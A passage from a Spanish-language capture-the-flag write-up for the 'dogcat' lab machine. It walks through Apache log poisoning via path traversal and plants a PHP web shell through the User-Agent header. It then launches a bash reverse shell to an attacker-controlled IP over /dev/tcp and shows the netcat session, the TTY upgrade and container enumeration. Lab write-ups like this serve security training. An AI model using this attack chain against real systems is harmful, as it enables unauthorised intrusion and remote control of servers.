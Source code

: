- Si recargamos la página apuntando hacia los logs, podremos ver que la función se llamó:

![Pasted image 20240408145708](https://github.com/JoseVazquez101/Writteups/assets/111292579/295aa14e-7cc0-4a2e-9e4e-732bb2f3a24a)

- Ahora bien, subiremos una webshell de igual forma:

~~~bash
❯ curl -X GET 'http://dogcat.thm/?view=dog/../../../../../../var/log/apache2/access.log&ext=' -H "User-Agent: <?php system(\$_GET['cmd']); ?>"
~~~

- Ya solo bastaría con ejecutar una revshell desde aquí, urlencodeando los ampersand `&` poniendo en su lugar `%26`:

~~~
http://dogcat.thm/?view=dog/../../../../../../var/log/apache2/access.log&ext=&cmd=bash -c "bash -i >%26 /dev/tcp/192.168.17.128/4444 0>%261"
~~~

- Y de esta forma poniéndonos en escucha, entablaremos una conexión:

~~~bash
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.2.60.167] from (UNKNOWN) [10.10.66.28] 60966
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@2d41b5f09911:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~

- Hacemos un tratamiento de TTY:

~~~bash
script /dev/null -c bash
^Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 44 columns 184
~~~

- Con algunos comandos, vemos que esta máquina es un docker:

~~~bash
www-data@2d41b5f09911:/var/www/html$ uname -a
Linux 2d41b5f09911 4.15.0-96-generic #97-Ubuntu SMP Wed Apr 1 03:25:46 UTC 2020 x86_64 GNU/Linux
www-data@2d41b5f09911:/var/www/html$ hostname -I
172.17.0.2 
~~~
***

### Root Docker:

- Vemos que podemos ejecutar como root el binario `env`:
